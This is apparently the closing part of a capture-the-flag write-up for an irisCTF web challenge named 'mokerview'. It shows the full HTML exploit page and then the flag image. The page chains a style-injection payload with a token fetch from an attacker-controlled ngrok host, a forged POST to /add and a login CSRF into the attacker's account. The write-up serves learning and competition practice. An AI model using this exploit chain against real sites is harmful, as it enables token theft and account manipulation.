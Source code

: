 ```html
<html>
<body>
        <!-- view clobber -->
        <form id="f1" action="https://mokerview-web.chal.irisc.tf/view" target="_blank">
            <input type="hidden" name="style" value='"{NGROK}'></form>
        <!-- forged /add goes here -->
        <form id="f2" action="NONE" method="POST" target="_blank"></form>
        <!-- login to your user -->
        <form id="f3" action="https://mokerview-web.chal.irisc.tf/login" method="POST" target="_blank">
            <input type="hidden" name="user" value="{USER}"><input type="hidden" name="password" value="{USER}"></form>
<script>
let f1 = document.getElementById("f1");
f1.submit();
new Promise(r => setTimeout(r, 500)).then(_ => {
let base = "https://mokerview-web.chal.irisc.tf/add?args=ZGFpbHk9MYAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA4CZtb2tlcj1mbGFnbW9rZXI%3D&token=";
    fetch("https://{NGROK}token").then(d => d.text()).then(token => {
    let url = base + token;
    let f2 = document.getElementById("f2");
    f2.action = url;
    let f3 = document.getElementById("f3");
    f2.submit();
    f3.submit();
})
});
</script>
</body>
</html>
```

## Flag

![](https://i.imgur.com/lNvRX88.png)

THANK YOU "MARIE" FOR LETTING ME USE "MOKER'S" PHOTO IN THIS CHALLENGE!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!! THE CAT'S NAME IS ACTUALLY MOKA, MOKER IS A PET NAME


...

...

...


Also here's the original flag
![](https://cdn.discordapp.com/attachments/816337570647506984/1059020578100617236/image.png)
